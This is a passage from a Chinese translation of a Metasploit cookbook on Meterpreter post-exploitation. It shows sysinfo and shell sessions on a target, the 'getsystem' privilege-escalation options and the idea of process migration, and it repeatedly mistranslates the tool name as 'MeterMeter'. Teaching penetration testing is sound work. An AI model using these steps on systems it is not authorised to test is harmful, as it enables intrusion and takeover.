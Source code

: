 *   `sysinfo:`这是一个方便的命令，用于快速验证系统信息，如操作系统和架构。

    ```
    meterpreter > sysinfo
    Computer : DARKLORD-PC
    OS : Windows 7 (Build 7264).
    Architecture : x86
    System Language : en_US
    Meterpreter : x86/win32 
    ```

*   `shell:`此命令将我们带入 shell 提示符。我们已经在以前的一些食谱中看到了这个 meterpeter 命令的使用。

    ```
    meterpreter > shell
    Process 4208 created.
    Channel 1 created.
    Microsoft Windows [Version 6.1.7264]
    Copyright (c) 2009 Microsoft Corporation. All rights reserved. 
    ```

*   `exit:`此命令用于终止 MeterMeter 会话。此命令还可用于终止 shell 会话并返回 MeterMeter。

这些是一些有用的系统命令，可用于探测受害目标以获取更多信息。还有许多其他命令，我将留给您尝试和探索。您可能已经注意到，使用 MeterMeter 命令和探索目标是多么容易，如果没有它，这将是一项困难的任务。在我们的下一个配方中，我们将重点介绍一些高级 MeterMeter 命令。

## 它是如何工作的。。。

MeterMeter 与任何命令解释器一样工作。它旨在通过命令理解和响应各种参数调用。它驻留在被利用/被破坏的进程的上下文中，并与渗透测试仪的机器创建客户机/服务器通信系统。

![How it works...](img/7423_05_02.jpg)

上图概括地说明了 MeterMeter 的功能。一旦建立了通信通道，我们就可以向 MeterMeter 服务器发送命令调用，将其响应返回到我们的机器。随着本章的继续，我们将更详细地了解 pen 测试机和受害目标之间的通信。

# 权限提升和进程迁移

在本食谱中，我们将重点介绍 MeterMeter 的两个非常有用的命令。第一个用于**权限提升**。此命令用于升级目标系统上的权限/权限。我们可能会以一个在系统上执行任务的权限较低的用户身份闯入。因此，我们可以将权限升级到系统管理员，以便在不中断的情况下执行任务。第二个命令用于**进程迁移**。此命令用于从一个进程迁移到另一个进程，而无需在磁盘上写入任何内容。

## 怎么做。。。

为了提升我们的特权，MeterMeter 向我们提供了 `getsystem`命令。此命令自动开始查找各种可能的技术，通过这些技术，用户权限可以升级到更高级别。让我们分析一下 `getsystem`命令使用的不同技术

```
meterpreter > getsystem -h
Usage: getsystem [options]
Attempt to elevate your privilege to that of local system.
OPTIONS:
-t <opt> The technique to use. (Default to '0').
0 : All techniques available
1 : Service - Named Pipe Impersonation (In Memory/Admin)
2 : Service - Named Pipe Impersonation (Dropper/Admin)
3 : Service - Token Duplication (In Memory/Admin)
4 : Exploit - KiTrap0D (In Memory/User) 
```
